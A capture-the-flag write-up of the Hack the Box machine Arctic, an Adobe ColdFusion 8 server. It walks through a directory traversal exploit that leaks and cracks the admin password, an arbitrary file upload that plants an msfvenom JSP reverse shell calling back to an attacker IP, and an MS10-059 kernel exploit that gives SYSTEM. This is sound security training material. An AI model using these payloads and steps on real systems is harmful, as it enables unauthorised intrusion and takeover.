 ```yaml
---
title: Arctic
date: 2024-03-03 10:00
categories: [ctf, security, hacking, exploits, web application, directory listing, arbitrary file upload, misconfiguration]
tags: [ctf, security, hacking, exploits, web application, directory listing, arbitrary file upload, misconfiguration]
---
```


# Overview
Arctic is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some basic web enumeration with using exploits to grab credentials and get a shell. The foothold is accomplished after using a public exploit that will allow for arbitrary file upload. The privilege escalation/abuse is using a file on the machine is done through a kernel level exploit that allows us to get a shell back through a public exploit as the `nt authority\system.`

## Nmap Scan
sudo nmap -sS -Pn `10.10.10.11` -vvv
* 135/tcp   open  msrpc   syn-ack ttl 127 
* 8500/tcp  open  fmtp    syn-ack ttl 127
* 49154/tcp open  unknown syn-ack ttl 127

> Web page here: http://10.10.10.11:8500/

## Basic Enumeration
Going out to the web page on port `8500`, we see two file directories, `CFIDE` and `cfdocs`. Looking through these, we eventually find `administrator`, asking for admin credentials. The web server appears to be an Adobe ColdFusion 8 developer server. 

* Using an exploit to abuse directory traversal, we are able to grab a hash for a password: `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03`
* https://www.exploit-db.com/exploits/14641

We get this password `happyday`, and we can sign into the administrator login portal. 

## Foothold
There is a lot here, so we can either find a path here, or go back and look around more for other exploits. 

* Looking around further, we see these kinds of server's have arbitrary file upload available to abuse. 
* https://github.com/nipunsomani/Adobe-ColdFusion-8-File-Upload-Exploit

In order to use this, we will either need to get a reverse `.jsp` shell, or we can generate one with msfvenom. 

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.5 LPORT=8081 -f raw > shell.jsp

* After running this, we can get a connection back to our attacker machine with netcat waiting. We are now on the box as user `tolis`. We have `user.txt`.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/arctic/Arctic_User.png?raw=true)

## Local Enumeration
We can run systeminfo, and run local exploit suggester to find possible paths to Privilege Escalation. Trying to run `winpeas` doesn't seem to work, and trying to run powershell on top of the shell seems to break the current foothold. 

* In order to find a way to run `winpeas` on the machine, we ended up pulling down a powershell reverse tcp script to get a `powershell` shell. From here, we then brough over a `meterpreter shell`, and got a connection back. We did this to have a more stable shell. 
* Using msfvenom to create a regular `windows/shell_reverse_tcp` didn't work for us to execute on the host, which is why we opted for the meterpreter shell. 

## Privilege Escalation
When doing exploit suggester, we get a lot of possible options, and the guided mode from `HTB` suggests to try to exploit the vulnerability related to `MS10-059`.

* https://learn.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-059
* POC: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

We pull the file `MS10-059.exe` onto the host, and execute this as the following to get a shell back as the administrator: `MS10-059.exe <hackerip> <listeningport>`

* Now we have access as `nt authority\system`, and can read `root.txt`:

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/arctic/Arctic_Root.png?raw=true)